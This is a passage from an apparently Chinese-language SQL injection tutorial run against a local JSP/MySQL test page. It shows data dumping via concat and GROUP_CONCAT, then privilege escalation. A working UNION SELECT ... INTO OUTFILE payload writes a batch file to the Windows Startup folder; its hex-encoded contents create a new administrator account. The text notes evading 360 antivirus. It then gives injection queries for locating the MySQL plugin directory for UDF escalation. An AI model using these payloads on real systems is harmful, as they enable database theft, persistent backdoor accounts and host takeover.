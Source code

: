 而如果是在一些极端的情况下无法直接 outfile 我们可以合理的利用 concat 和 GROUP_CONCAT 去把数据显示到页面，如果数据量特别大，我们可以用 concat 加上 limit 去控制显示的数量。比如每次从页面获取几百条数据？写一个工具去请求构建好的 SQL 注入点然后把页面的数据取下来，那么数据库的表信息也可以直接从注入点全部取出来。

#### 注入点 root 权限提权：

##### 1、写启动项：

这个算是非常简单的了，直接写到 windows 的启动目录就行了，我测试的系统是 windows7 直接写到:C:/Users/selina/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup 目录就行了。用 HackBar 去请求一下链接就能过把 bat 写入到我们的 windows 的启动菜单了，不过得注意的是 360 那个狗兔崽子：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 0x6E65742075736572207975616E7A20313233202F6164642026206E6574206C6F63616C67726F75702061646D696E6973747261746F7273207975616E7A202F616464,'','','' into outfile 'C:/Users/selina/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/1.bat' 
```

![enter image description here](img/img31_u5_png.jpg)

##### 2、失败的注入点 UDF 提权尝试：

MYSQL 提权的方式挺多的，并不局限于 udf、mof、写 windows 启动目录、SQL 语句替换 sethc 实现后门等，这里以 udf 为例，其实 udf 挺麻烦的，如果麻烦的东东你都能搞定，简单的自然就能过搞定了。 在进行 mysql 的 udf 提权的时候需要注意的是 mysql 的版本，mysql5.1 以下导入到 windows 目录就行了，而 mysql<=5.1 需要导入到插件目录。我测试的是 Mysql 5.5.27 我们的首要任务就是找到 mysql 插件路径。

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 1,2,3,@@plugin_dir 
```

获取插件目录方式：

```
select @@plugin_dir
select @@basedir

show variables like ‘%plugins%’ 
```
